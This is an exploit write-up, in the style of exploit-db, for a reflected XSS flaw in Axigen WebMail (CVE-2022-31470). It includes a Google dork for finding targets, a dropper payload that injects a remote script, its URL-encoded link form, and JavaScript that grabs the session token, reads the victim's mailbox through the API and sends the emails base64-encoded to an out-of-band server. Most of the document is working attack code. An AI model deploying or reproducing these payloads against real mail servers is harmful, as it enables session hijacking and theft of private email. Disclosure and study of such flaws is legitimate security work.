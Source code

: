 # Exploit Title: Axigen < 10.3.3.47, 10.2.3.12 - Reflected XSS

### Google Dork: inurl:passwordexpired=yes
### Date: 2023-08-21
### Exploit Author: AmirZargham
### Vendor Homepage: https://www.axigen.com/
### Software Link: https://www.axigen.com/mail-server/download/
### Version: (10.5.0–4370c946) and older version of Axigen WebMail
### Tested on: firefox,chrome
### CVE: CVE-2022-31470

Exploit
We use the second Reflected XSS to exploit this vulnerability, create a
malicious link, and steal user emails.

Dropper code
This dropper code, loads and executes JavaScript exploit code from a remote
server.

```javascript
');
x = document.createElement('script');
x.src = 'https://example.com/exploit.js';
window.addEventListener('DOMContentLoaded',function y(){
  document.body.appendChild(x)
})//
```


Encoded form
`
/index.hsp?m=%27)%3Bx%3Ddocument.createElement(%27script%27)%3Bx.src%3D%27
https://example.com/exploit.js%27%3Bwindow.addEventListener(%27DOMContentLoaded%27,function+y(){document.body.appendChild(x)})//
`

Exploit code
```javascript
xhr1 = new XMLHttpRequest(), xhr2 = new XMLHttpRequest(), xhr3 = new
XMLHttpRequest();
oob_server = 'https://example.com/';
var script_tag = document.createElement('script');

xhr1.open('GET', '/', true);
xhr1.onreadystatechange = () => {
    if (xhr1.readyState === XMLHttpRequest.DONE) {
        _h_cookie = new URL(xhr1.responseURL).search.split("=")[1];
        xhr2.open('PATCH', `/api/v1/conversations/MQ/?_h=${_h_cookie}`,
true);
        xhr2.setRequestHeader('Content-Type', 'application/json');
        xhr2.onreadystatechange = () => {
            if (xhr2.readyState === XMLHttpRequest.DONE) {
                if (xhr2.status === 401){
                    script_tag.src =
`${oob_server}?status=session_expired&domain=${document.domain}`;
                    document.body.appendChild(script_tag);
                } else {
                    resp = xhr2.responseText;
                    folderId = JSON.parse(resp)["mails"][0]["folderId"];
                    xhr3.open('GET',
`/api/v1/conversations?folderId=${folderId}&_h=${_h_cookie}`, true);
                    xhr3.onreadystatechange = () => {
                        if (xhr3.readyState === XMLHttpRequest.DONE) {
                            emails = xhr3.responseText;
                            script_tag.src =
`${oob_server}?status=ok&domain=${document.domain}&emails=${btoa(emails)}`;
                            document.body.appendChild(script_tag);
                        }
                    };
                    xhr3.send();
                }
            }
        };
        var body = JSON.stringify({isUnread: false});
        xhr2.send(body);
    }
};
xhr1.send();
```

Combining dropper and exploit
You can host the exploit code somewhere and then address it in the dropper
code.


#### Published in: [exploit-db](https://www.exploit-db.com/search?e_author=amirzargham).
#### Published in: [0day.today](https://0day.today/author/46852).
#### Published in: [packet storm](https://packetstormsecurity.com/files/author/16843).

